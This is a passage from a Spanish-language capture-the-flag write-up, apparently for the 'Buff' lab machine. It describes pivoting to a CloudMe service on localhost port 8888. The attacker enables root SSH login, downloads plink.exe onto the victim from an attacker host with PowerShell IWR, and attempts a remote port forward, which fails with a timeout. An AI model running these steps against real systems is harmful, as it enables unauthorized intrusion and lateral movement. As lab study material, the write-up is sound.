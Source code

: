 ```powershell
c:\Users\shaun\Downloads>netstat -a | findstr 8888
```

Tenemos que está en escucha pero mediante el localhost. Pues sencillo, solo es ejecutar el script, cambiarle el payload de `msfvenom` para que haga una petición a nuestra máquina y listos...

**Pues no**, la maquina no tiene **Python** y no permite ejecutar scripts de **PowerShell** (hay un exploit también). Así que tenemos dos opciones, pasar algún script de **Python** a **.exe** y subirlo o hacer un *Remote Port Forwarding*. Me voy con la segunda opción. (La primera la intente pero me dio problemas).

Básicamente un **Remote Port Forwarding** nos permite tomar un puerto de la máquina local para decirle que tome ese puerto y lo monte en uno de la máquina remota... Por lo que si tenemos el puerto 8888 localmente y le decimos que queremos montar ese puerto en nuestra máquina remota, tendremos el servicio CloudMe (8888) ejecutándose en nuestro puerto :). Y como en nuestra máquina si tenemos `python`, podremos explotarlo.

Validemos que hay en nuestro puerto 8888:

```bash
┌─[root@rave]─[/buff]
└──╼ #lsof -i:8888
┌─[✗]─[root@rave]─[/buff]
└──╼ #
```

Nada aún.

El Remote Port Forwarding lo haremos con `plink.exe` (relativamente parecido a **SSH** pero para Windows), procedemos a subirlo y ejecutarlo.

Pero antes, veamos alguna configuración necesaria en nuestra máquina atacante sobre SSH. En el archivo `/etc/ssh/sshd_config` debemos modificar que nos permita ingresar como root, por que si no, nos va a botar unos errores.

```bash
$cat /etc/ssh/sshd_config
...
...
PermitRootLogin yes
...
...
```

Y ahora reiniciamos el servicio SSH.

```bash
$service ssh restart
```

Listo ahora si procedemos a subir el binario y ejecutarlo.

```powershell
c:\Users\shaun\Downloads>cd c:\xampp\tmp
cd c:\xampp\tmp

c:\xampp\tmp>powershell IWR -uri http://10.10.15.86:8000/plink.exe -OutFile c:\xampp\tmp\plink.exe
powershell IWR -uri http://10.10.15.86:8000/plink.exe -OutFile c:\xampp\tmp\plink.exe

c:\xampp\tmp>plink.exe -l root -pw hola2 -R 8888:127.0.0.1:8888 10.10.15.86
plink.exe -l root -pw hola2 -R 8888:127.0.0.1:8888 10.10.15.86
FATAL ERROR: Network error: Connection timed out
```
